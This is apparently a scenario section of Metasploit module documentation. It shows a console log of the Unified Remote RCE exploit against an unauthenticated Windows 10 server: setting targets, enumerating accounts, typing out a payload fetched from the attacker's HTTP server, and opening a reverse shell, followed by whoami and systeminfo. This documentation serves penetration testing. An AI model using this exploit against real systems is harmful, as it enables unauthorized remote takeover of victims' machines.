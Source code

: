 ### Version 3.11.0.2483 on Windows 10, No authentication, visible true

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-s5IbpVuRf1MJzqRs
[*] 2.2.2.2:9512 - Retrieving server config
[+] 2.2.2.2:9512 - No security enabled
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59233) at 2022-09-08 16:47:20 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\jhy5cTqRs.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```
